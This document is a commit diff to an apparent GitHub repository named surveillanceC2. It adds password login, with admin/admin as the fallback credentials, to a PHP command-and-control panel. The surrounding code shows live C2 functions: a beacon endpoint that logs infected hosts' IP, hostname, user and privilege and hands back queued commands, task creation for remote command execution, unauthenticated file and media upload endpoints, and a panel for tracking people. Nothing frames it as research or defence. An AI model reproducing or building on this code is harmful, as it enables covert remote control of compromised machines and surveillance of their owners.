

Before and after one commit to 0xMush/surveillanceC2, a PHP site: page / in a window 1280 px wide. Run offline with PHP 8.4, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
feature: basic auth

```diff
--- a/server/index.php
+++ b/server/index.php
@@ -1,4 +1,61 @@
 <?php
+session_start();
+// ── Load .env ──
+$ENV=[];
+$envFile=__DIR__.'/.env';
+if(is_file($envFile)){
+    foreach(file($envFile,FILE_IGNORE_NEW_LINES|FILE_SKIP_EMPTY_LINES)as$line){
+        $line=trim($line);if(str_starts_with($line,'#'))continue;
+        if(str_contains($line,'=')){$p=strpos($line,'=');$k=trim(substr($line,0,$p));$v=trim(substr($line,$p+1));$ENV[$k]=$v;}
+    }
+}
+$AUTH_USER=$ENV['PANEL_USERNAME']??'admin';
+$AUTH_PASS=$ENV['PANEL_PASSWORD']??'admin';
+
+// ── Auth check ──
+function requireAuth(){
+    global $AUTH_USER,$AUTH_PASS;
+    if(empty($_SESSION['panel_logged_in'])){
+        if($_SERVER['REQUEST_METHOD']==='POST'&&($_REQUEST['action']??'')==='login'){
+            $i=json_decode(file_get_contents('php://input'),1)??[];
+            if(($i['username']??'')===$AUTH_USER&&($i['password']??'')===$AUTH_PASS){
+                $_SESSION['panel_logged_in']=true;$_SESSION['panel_user']=$AUTH_USER;
+                http_response_code(200);header('Content-Type: application/json');echo json_encode(['status'=>'ok']);exit;
+            }
+            http_response_code(401);header('Content-Type: application/json');echo json_encode(['error'=>'Invalid credentials']);exit;
+        }
+        if($_REQUEST['action']??''==='logout'){session_destroy();header('Location: ?');exit;}
+        renderLogin();exit;
+    }
+}
+function renderLogin(){?>
+<!DOCTYPE html><html lang="en"><head><meta charset="UTF-8"><meta name="viewport" content="width=device-width,initial-scale=1"><title>C2 Panel - Login</title><style>
+*{margin:0;padding:0;box-sizing:border-box}
+body{font-family:system-ui,-apple-system,sans-serif;background:#080c14;color:#c8d0dc;height:100vh;display:flex;align-items:center;justify-content:center}
+.lg{background:#0f1620;border:1px solid #1e2a3a;border-radius:10px;padding:30px;width:320px}
+.lg h1{font-size:16px;text-align:center;margin-bottom:20px;letter-spacing:1px}
+.lg h1 span{color:#00c853}
+.lg label{display:block;font-size:11px;color:#6b7f99;margin:10px 0 4px}
+.lg input{width:100%;padding:8px 10px;background:#161f2e;border:1px solid #1e2a3a;border-radius:5px;color:#c8d0dc;font-size:13px;outline:none}
+.lg input:focus{border-color:#00c853}
+.lg button{width:100%;margin-top:18px;padding:8px;background:#00c853;border:none;border-radius:5px;color:#000;font-size:13px;font-weight:700;cursor:pointer}
+.lg button:hover{background:#00e060}
+.lg .er{color:#ff1744;font-size:11px;text-align:center;margin-top:10px;display:none}
+</style></head><body>
+<div class="lg"><h1>&#9670; C2 <span>Panel</span></h1>
+<form onsubmit="event.preventDefault();login()">
+<label>Username</label><input id="lu" value="<?=htmlspecialchars($GLOBALS['AUTH_USER'])?>" autocomplete="username">
+<label>Password</label><input id="lp" type="password" placeholder="password" autocomplete="current-password">
+<button type="submit">Sign In</button>
+<div class="er" id="ler">Invalid credentials</div>
+</form></div>
+<script>async function login(){
+const r=await fetch('?action=login',{method:'POST',headers:{'Content-Type':'application/json'},body:JSON.stringify({username:document.getElementById('lu').value,password:document.getElementById('lp').value})});
+if(r.ok){window.location.reload()}else{document.getElementById('ler').style.display='block'}
+}</script>
+</body></html>
+<?php exit;}
+
 define('STORAGE_DIR',__DIR__.'/data');define('UPLOAD_DIR',__DIR__.'/uploads');define('MEDIA_DIR',__DIR__.'/media');define('DEVICE_DIR',__DIR__.'/devices');define('HUMAN_DIR',__DIR__.'/humans');
 foreach([STORAGE_DIR,UPLOAD_DIR,MEDIA_DIR,DEVICE_DIR,HUMAN_DIR]as$d)is_dir($d)or mkdir($d,0755,true);
 function devicePath($u){return DEVICE_DIR.'/'.preg_replace('/[^a-zA-Z0-9-]/','',$u);}
@@ -39,6 +96,10 @@ function jo($d,$c=200){http_response_code($c);header('Content-Type: application/
 function je($m,$c=400){jo(['error'=>$m],$c);}
 function nm($m){if($_SERVER['REQUEST_METHOD']!==$m)je('Method not allowed',405);}
 $action=$_REQUEST['action']??'';
+// Require auth for all actions except beacon comms and login/logout
+$public=['beacon','result','login','logout'];
+if($_SERVER['REQUEST_METHOD']==='POST'&&in_array($action,['file','media_upload']))$public[]=$action;
+if(!in_array($action,$public))requireAuth();
 switch($action){
 case'beacon':nm('POST');$i=ji();if(empty($i['uuid']))je('Missing uuid');DB::i()->beaconUp($i['uuid'],['ip'=>$i['ip']??'','hostname'=>$i['hostname']??'','os'=>$i['os']??'','username'=>$i['username']??'','privilege'=>$i['privilege']??'user','pid'=>intval($i['pid']??0)]);jo(['tasks'=>DB::i()->taskP($i['uuid']),'sleep'=>rand(5,15)]);break;
 case'task':if($_SERVER['REQUEST_METHOD']==='POST'){$i=ji();if(empty($i['beacon_uuid'])||empty($i['command']))je('Missing');$id=DB::i()->taskC($i['beacon_uuid'],$i['command']);jo(['id'=>$id,'status'=>'created'],201);}else jo(DB::i()->tasks($_GET['beacon_uuid']??null,$_GET['status']??null));break;
@@ -307,6 +368,7 @@ a{color:var(--blue);text-decoration:none}
     <span style="color:var(--amber)"><span id="s-pend"><?=$pending?></span> pend</span>
     <span style="color:var(--cyan)"><span id="s-done"><?=$done?></span> done</span>
     <span><button id="hm-tg" class="btn btn-xs btn-hm" onclick="toggleHumans()">&#128100; Humans</button></span>
+    <span><a href="?action=logout" class="btn btn-xs btn-gh" style="text-decoration:none">&#128682; Logout</a></span>
 </div>
 </div>
 
```
Also changed, not shown: 1 other file.
